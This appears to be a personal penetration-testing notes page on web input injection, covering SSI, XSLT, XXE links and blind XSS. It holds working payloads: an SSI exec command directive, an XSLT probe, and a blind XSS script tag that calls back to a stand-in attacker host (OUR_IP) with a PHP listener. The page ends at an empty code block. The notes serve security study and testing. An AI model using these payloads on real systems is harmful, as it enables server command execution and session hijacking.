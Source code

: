 
## SSI
Test for this if user input is reflected on into static HTML;
- Or if you see `.shtml`, `.shtm`, and `.stm` files.

1. Test with the following input where user would supply input to be reflected (such as your name):
```html
<!--#printenv -->
```
2. If this is executed, we can try executing arbitrary commands using `exec`:
```html
<!--#exec cmd="id" -->
```



## XSLT
If we find an input that is reflected on the page (such as our name), we can test if our input is sanitized before XSLT processing by inputting: `<`
- If there is a `500` error, it may be vulnerable

If so, try the following to see if it processes our input:
```xml
<xsl:value-of select="system-property('xsl:version')" />
<br/>
```
- If our input is interpreted, we have confirmed vulnerability
- If confirmed, go through [[CBBH Modules (For Testing)/3. Input-Based Attacks/6. XSLT - Extensible Stylesheet Language Transformations Server-Side Injection/Reference#Information Disclosure|Reference]]


## XXE (If XML data is being supplied)
### LFI: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/1. Local File Disclosure]]
### Advanced File Disclosure: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/2. Advanced File Disclosure]]
### Blind Data Exfiltration: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/3. Blind Data Exfiltration]]



# Input is sent to another user / blind
1. Contact Form
2. Testimonial form
3. Form for approval
## XSS (Session Hijacking)
We can test each input parameter with a payload that probes our attacking machine to find if it is vulnerable:
1. Start a listener:
```shell
sudo php -S 0.0.0.0:80
```
2. Submit XSS payload to send a request back to our machine
```
<script src=http://OUR_IP/username></script>
```
- We should receive a call to our listener if it is vulnerable
3. If we dent receive anything, try the following payloads:
```html
```